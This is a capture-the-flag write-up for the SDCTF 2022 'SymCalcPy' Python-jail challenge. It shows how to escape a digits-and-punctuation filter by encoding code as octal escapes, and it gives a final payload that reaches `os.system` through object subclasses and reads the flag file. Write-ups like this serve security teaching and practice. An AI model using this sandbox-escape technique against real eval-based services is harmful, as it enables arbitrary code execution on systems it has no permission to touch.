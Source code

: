 # SymCalcPy

```
score: 220
solved: xx/27
difficulty: medium
tags: jail, python
```

## Problem

Welcome to SymCalc, the most secure calculator ever. Only punctuation and digits allowed!
Connect via
nc symcalc.sdc.tf 1337
Source code
symcalc.py

https://github.com/acmucsd/sdctf-2022/

## Got the flag

Only punctuation and number, then how to write code, e.g to open or to import os?

we did a search and found

[HELP] Python code execution without letters: LiveOverflow
https://www.reddit.com/r/LiveOverflow/comments/97b0hw/help_python_code_execution_without_letters/

The answer is to use octal to write character

```py
>>> "\077"
'?'
```

so we can write code without letters.

Then how to run code?

Reading the symcalc.py, it uses `code` standard library,

```
from code import InteractiveConsole

...
sc.push(fav_builtin)
```

reading [doc of `code`](https://docs.python.org/3/library/code.html), push would eval a function before running our code, it returns `eval` function.
As Python interpreter use `_` to refer to last calculated result, we can use `_(our_encoded_octal_string)` to run arbitrary code.

Encode to octal
```py
print(''.join(['\\' + oct(ord(c))[2:] for c in 'cat flag.txt']))
```

Solve

```
_("\050\050\133\170\040\146\157\162\040\170\040\151\156\040\050\061\051\056\137\137\143\154\141\163\163\137\137\056\137\137\142\141\163\145\137\137\056\137\137\163\165\142\143\154\141\163\163\145\163\137\137\050\051\040\151\146\040\170\056\137\137\156\141\155\145\137\137\040\075\075\040\047\143\141\164\143\150\137\167\141\162\156\151\156\147\163\047\135\133\060\135\050\051\056\137\155\157\144\165\154\145\056\137\137\142\165\151\154\164\151\156\163\137\137\051\051\133\047\137\137\151\155\160\157\162\164\137\137\047\135\050\047\157\163\047\051\056\163\171\163\164\145\155\050\047\143\141\164\40\146\154\141\147\56\164\170\164\047\051")
```

we got the flag.
